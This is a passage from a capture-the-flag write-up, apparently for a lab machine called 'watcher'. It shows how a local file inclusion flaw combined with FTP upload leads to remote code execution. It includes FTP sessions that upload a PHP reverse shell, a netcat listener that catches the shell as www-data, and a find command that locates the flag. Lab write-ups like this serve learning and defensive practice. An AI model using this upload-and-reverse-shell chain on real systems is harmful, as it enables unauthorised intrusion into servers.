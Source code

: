 Clearly, the message in the file we saw on the web server hinted at directories being connected. We also have the ability to access local files ...

### 1.6 LFI + FTP = RCE?
I tried putting in a file,
```
ftp> put haha.png 
local: haha.png remote: haha.png
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
11007 bytes sent in 0.00 secs (37.4896 MB/s)
```

![File upload working using LFI vulnerability and FTP](https://i.imgur.com/qDyqE9I.png)

Works!

## 2. Foothold
Time to get in. Get the shell from [RevShells](http://revshells.com/)

```
ftp> cd files
250 Directory successfully changed.
ftp> put phprevshell.php 
local: phprevshell.php remote: phprevshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
2585 bytes sent in 0.00 secs (34.7218 MB/s)
ftp> 
221 Goodbye.
```

Start the listener.
```                   
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.157.202] 42726
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:25:10 up 39 min,  0 users,  load average: 0.00, 0.00, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@watcher:/$ 
```
And we have the flag!
```
www-data@watcher:/$ find -type f -name 'flag_3.txt' 2>/dev/null
./var/www/html/more_secrets_******/flag_3.txt
```
